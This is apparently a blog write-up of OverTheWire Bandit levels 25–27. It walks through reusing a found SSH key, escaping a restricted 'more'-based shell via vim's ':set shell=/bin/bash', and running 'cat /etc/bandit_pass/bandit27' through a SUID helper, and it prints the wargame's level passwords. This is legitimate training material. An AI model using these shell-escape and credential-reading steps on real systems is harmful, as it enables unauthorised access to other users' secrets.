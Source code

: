 ```yaml
---
layout: post
title: Bandit level 25 to 27 - Walkthrough
date: "2023-04-27 23:01:26 +0100"
categories: [CTF-WRITEUPS, OverTheWire- Bandit]
tags: [linux, bandit]
---
```


## Level 25 --> 26

### Level credentials

- username : **<span style="color : #277BE9">bandit25</span>**
- password : **<span style="color : #277BE9">p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d</span>**

### Level goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

### Level solution

As described, this level is pretty much free, an ssh key private key is in the current directory, let's copy it to our local machine and use it to access the next level.

```bash
bandit25@bandit:~$ ls
bandit26.sshkey
```

```bash
# in our host machine
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ scp -P 2220 bandit25@bandit.labs.overthewire.org:/home/bandit25/bandit26.sshkey .
```

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ ls -l bandit26.sshkey
-rw------- 1 yariss yariss 1679 Apr 27 23:31 bandit26.sshkey
```

Now let's connect to bandit26 !

```bash
┌──(yariss㉿Kali-VM)-[~/boxes/bandit]
└─$ ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
```

That's odd, we can't connect ! We get logged out each time...
My first thought is `bashrc` being modified.

But, the challenge description says that bandit26 is using another shell !

Let's connect using bandit25 credentials and see what the shell is going on!

```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```

Hmmm, its seems like a custom shell, let's read its content.

```bash
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

It seems like the shell executes `more` on `~/text.txt` and when it finished, it exits. The `exit` is the reason we get disconnected.

```bash
bandit25@bandit:~$ ls -l /home/bandit26/text.txt
-rw-r----- 1 bandit26 bandit26 258 Apr 23 18:04 /home/bandit26/text.txt
```

Our text has 258 characters, so what I'm thinking here is, when we log in with bandit26, we must prevent `more` from reading all of `text.txt` content, that way `exit` doesn't get triggered.

<img src="/../assets/bandit25.png" />

It worked, we are not being kicked !
Let's change our shell back to `bash`. but how are we going to do that?

We can access vim inside `more` by just typing `v`, and then inside `vim` we can execute commands.

> Note : hit `ESC` to switch to the command mode

```bash
:set shell=/bin/bash
:shell
```

This sets our shell to `bash`, instead of $SHELL which is not what we want in our case.

`:shell` allows us to open a new `bash` shell inside Vim, which allows us to execute `bash` commands and return to Vim when we're finished.

Here we go, we escaped the broken shell !

```bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
```

## Level 26 --> 27

### Level credentials

- username : **<span style="color : #277BE9">bandit26</span>**
- password : **<span style="color : #277BE9">SSH KEY from the previous level</span>**

### Level goal

Good job getting a shell! Now hurry and grab the password for bandit27!

### Level solution

After escaping the shell in the previous level, we are now presented with a SUID binary, let's run it.

```bash
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
```

We have exploited something similar to this in the previous levels, we can just display the target's password using this binary.

```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```

And voila !

We got our password 😃

> YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
